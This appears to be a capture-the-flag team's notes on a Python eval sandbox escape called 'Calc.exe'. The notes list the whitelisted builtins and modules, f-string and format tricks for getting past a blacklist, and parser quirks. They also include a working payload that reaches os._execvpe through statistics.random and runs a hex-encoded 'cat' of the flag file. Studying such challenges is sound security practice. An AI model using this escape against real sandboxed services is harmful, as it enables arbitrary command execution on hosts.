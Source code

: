 ## Calc.exe
> **Category:** Misc
> **Description:** 
> **Pad Link:** http://34.87.94.220/pad/misc-calcexe
> **Flag:**
---

## References
https://stackoverflow.com/questions/35804961/python-eval-is-it-still-dangerous-if-i-disable-builtins-and-attribute-access

Python 3.8

> statistics.random._os._execvpe
statistics.random._os._execvpe = <function _execvpe at 0x7f0884779790>

> statistics.random._os._execvpe('\x63\x61\x74',['\x63\x61\x74','\x66\x6c\x61\x67\x5f\x36\x61\x38\x61\x38\x32\x34\x31\x36\x34\x66\x39\x31\x35\x39\x31\x64\x30\x35\x35\x30\x35\x63\x36\x31\x39\x66\x30\x36\x65\x38\x32'])
statistics.random._os._execvpe('\x63\x61\x74',['\x63\x61\x74','\x66\x6c\x61\x67\x5f\x36\x61\x38\x61\x38\x32\x34\x31\x36\x34\x66\x39\x31\x35\x39\x31\x64\x30\x35\x35\x30\x35\x63\x36\x31\x39\x66\x30\x36\x65\x38\x32']) = FLAG{yet-an0th3r-pyth0n-s4ndb0x}

FLAG{yet-an0th3r-pyth0n-s4ndb0x}


## Bugs
Allowed builtins:
- abs
- dict
- divmod
- float
- format
- int
- len
- max
- min
- pow
- range
- set
- str

`__` is blacklisted

Allowed modules:
- math
    - math.sin
    - math.cos
- statistics
    - statistics.bisect_right
    - statistics.math
    - statistics.exp
    - statistics.erf
    - statistics.median_high
    - statistics.median_low
    - statistics.median_grouped
    - statistics.mode
    - statistics.sqrt
    - statistics.stdev
    - statistics.random
    - statistics.random._os
        - statistics.random._os._execvpe
    - statistics._find_rteq
    - statistics._convert
    - statistics._isfinite
    - statistics._normal_dist_inv_cdf
    - statistics._ss
    - 
- datetime
    - datetime.datetime_CAPI
    - datetime.datetime
- py_compile (Not defined)
- sqlite3 (Not defined)
- test (Not defined)
    

```
> datetime
datetime = <module 'datetime' from '/usr/local/lib/python3.8/datetime.py'>
```

Crashed it: datetime.ctime()¶
![](https://i.imgur.com/QTfzexZ.png)

```
f"\u0061"
```

https://blog.csdn.net/qq_43390703/article/details/106231154

Execution path: ['/usr/local/bin', '/usr/local/sbin', '/usr/local/bin', '/usr/sbin', '/usr/bin', '/sbin', '/bin']

## Exploit Ideas

To make string:

```python=3.6
"a"+"b" = ab
"{:c}".format(0x41) = A
```

Use f-string to evaluate expressions

```py
eval('f"{().__class__.__base__}"', {'__builtins__': None}, {})
```

`int` is not blacklisted:

```
> int
int = <class 'int'>
```

```
f'''{int(f'{f"0"+f"x"+f"1"}',16)+1}'''
```

```
f'''{in t(1)}'''
```

```
f'''{f'{f"i"+f"n"+f"t"+f"("+f"1"+f"+"+f"1"+f")"}'}'''
```

Loops ok
~~~
> [i for i in range(5)]
[i for i in range(5)] = [0, 1, 2, 3, 4]
~~~

## Weird things

~~~
> {}['a']
{}['a'] = 'a'
~~~
but supposed to give:
~~~
Traceback (most recent call last):
  File "<stdin>", line 1, in <module>
KeyError: 'a'
~~~

~~~
> {}[]
{}[] = unexpected EOF while parsing (<string>, line 1)
~~~
but supposed to give:
~~~
  File "<stdin>", line 1
    {}[]
       ^
SyntaxError: invalid syntax
~~~

```
> {}[{}]
{}[{}] = unhashable type: 'dict'
```

```
> {'a':1}['a']
{'a':1}['a'] = 1
> {'a':1}['b']
{'a':1}['b'] = 'b'
```

```
> [i for i in ()]
I don't like this: in()
> 'a' in ('a',)
'a' in ('a',) = True
> in
in = unexpected EOF while parsing (<string>, line 1)
```

```
> {1}[1]
{1}[1] = <string>:1: SyntaxWarning: 'set' object is not subscriptable; perhaps you missed a comma?'set' object is not subscriptable
```

https://adamj.eu/tech/2020/06/17/why-does-python-syntaxwarning-for-object-is-not-subscriptable/

## Scripts

local debug - to dump properties:
~~~python
mod = datetime; print('\n'.join([i + ' => ' + repr(getattr(mod,i)) for i in dir(mod)]))
# replace mod = datetime to e.g. mod = statistics
~~~
